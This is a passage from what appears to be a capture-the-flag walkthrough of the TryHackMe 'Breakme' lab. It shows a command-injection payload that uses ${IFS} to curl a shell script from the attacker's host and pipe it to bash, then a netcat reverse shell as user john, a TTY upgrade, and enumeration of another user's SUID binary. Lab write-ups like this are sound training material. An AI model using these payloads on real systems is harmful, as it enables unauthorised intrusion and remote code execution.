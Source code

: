 Now that we host the malicious shell on our attack host, we can start a listener on our attack host and send the payload to our target for execution.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Breakme]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

```payload
john|curl${IFS}10.8.23.19/shell.sh${IFS}|/bin/bash
```
![](/assets/img/posts/walthrough/tryhackme/2024-09-27-breakme/payload-sent.png)

If we return to our listener, we will notice a reverse connection from the target and this time have a connection as the user John. We can upgrade this shell to a fully interactive shell and read the user's flag as shown below.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Breakme]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.23.19] from (UNKNOWN) [10.10.230.208] 37170
/bin/sh: 0: can't access tty; job control turned off
$  python3 -c 'import pty; pty.spawn("/bin/bash")' 
john@Breakme:~/internal$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Breakme]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 4444
                               export TERM=xterm
john@Breakme:~$ ls
internal  user1.txt
```

We can use this account to further our enumeration of the target. We will notice that the local user Youcef home directory is in our group and that this directory contains the SUID bit set for the user Youcef. 
```
john@Breakme:/home$ ls -l
total 24
drwxr-xr-x 4 john   john  4096 Aug  3  2023 john
drwx------ 2 root   root 16384 Aug 17  2021 lost+found
drwxr-x--- 4 youcef john  4096 Aug  3  2023 youcef
john@Breakme:/home$ ls youcef
readfile <SNIP>
```
